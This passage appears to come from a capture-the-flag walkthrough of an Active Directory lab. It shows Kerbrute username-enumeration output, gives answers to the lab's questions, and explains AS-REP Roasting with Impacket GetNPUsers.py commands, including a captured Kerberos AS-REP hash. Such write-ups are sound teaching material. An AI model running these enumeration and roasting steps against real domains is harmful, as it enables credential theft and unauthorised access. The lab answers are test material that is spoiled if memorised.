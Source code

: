 ```bash
2021/05/19 04:49:30 >  [+] VALID USERNAME:       James@THM-AD
2021/05/19 04:49:30 >  [+] VALID USERNAME:       robin@THM-AD
2021/05/19 04:49:34 >  [+] VALID USERNAME:       darkstar@THM-AD
2021/05/19 04:49:36 >  [+] VALID USERNAME:       administrator@THM-AD
2021/05/19 04:49:40 >  [+] VALID USERNAME:       backup@THM-AD
2021/05/19 04:49:42 >  [+] VALID USERNAME:       paradox@THM-AD
2021/05/19 04:49:54 >  [+] VALID USERNAME:       JAMES@THM-AD
2021/05/19 04:49:58 >  [+] VALID USERNAME:       Robin@THM-AD
2021/05/19 04:50:23 >  [+] VALID USERNAME:       Administrator@THM-AD
2021/05/19 04:51:19 >  [+] VALID USERNAME:       Darkstar@THM-AD
2021/05/19 04:51:34 >  [+] VALID USERNAME:       Paradox@THM-AD
2021/05/19 04:52:27 >  [+] VALID USERNAME:       DARKSTAR@THM-AD
2021/05/19 04:52:44 >  [+] VALID USERNAME:       ori@THM-AD
2021/05/19 04:53:14 >  [+] VALID USERNAME:       ROBIN@THM-AD
2021/05/19 04:54:25 >  Done! Tested 73317 usernames (16 valid) in 296.440 seconds
```

The answer is `svc-admin`

#### What is the other notable account is discovered? (These should jump out at you)

`backup`

___

## Exploitation (Abusing Kerberos)

> I highly recommand to watch this [VbScrub - Kerberos](https://www.youtube.com/playlist?list=PL3B8L-z5QU-Z0bWmjwgUSLGTzm1k_kVZo) YouTube playlist before continuing.

> And for french readers, this article from hackndo's blog: [AS-REP Roasting](https://beta.hackndo.com/kerberos-asrep-roasting/)

**AS-REP Roasting** occurs when a user account has the privilege _"Does not require Pre-Authentication"_ set. 

> This means that the account does not need to provide valid identification before requesting a Kerberos Ticket on the specified user account.

To take advantage of this, we'll use `GetNPUsers.py` (from **Impacket**) that will allow us to query AS-REP Roastable accounts from the Key Distribution Center. 

> **Note**:The only thing that's necessary to query accounts is a valid set of usernames which we enumerated previously via Kerbrute.

```bash
$ locate GetNPUsers.py
/usr/local/bin/GetNPUsers.py
/usr/local/bin/GetNPUsers.pyc
/usr/share/doc/python3-impacket/examples/GetNPUsers.py
$ python3 /usr/local/bin/GetNPUsers.py spookysec.local/svc-admin -request -dc-ip $TARGET -no-pass
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for svc-admin
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:b4c31112ac39aae6cc44a1ee38b898d8$cbdf8ee2166813e2ba6fe8e385f1469d3dbeed4a676a9068c528ab383cf9ae32bffe15ef9b35758c7a2a00c800752004aba07284913712bb68eb4e8f78f41a050bc87f8e3d8599817efcac36b410e56b5927564929f7e5c61b1179db7dd4e6a97e8de381244e145bc0562d31b261f9bbf945f41b89c9a9b0875e35bc35456518acac08a79e03948fd9906eb72f3fbe2a88399f4c1a54f7f2448d79e20979048ff3c4053527c582677c7403a02615a92d8e204c756645849112f8de087e1791909dcf5945a93fffadc60fe94a54f834d4794dd5fce7d36fceb2ac2d591a222b360b0ddcd085aaa7f753f5e868ffa01f3cc4a8
$ python3 /usr/local/bin/GetNPUsers.py spookysec.local/backup -request -dc-ip $TARGET -no-pass
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for backup
[-] User backup doesn't have UF_DONT_REQUIRE_PREAUTH set
```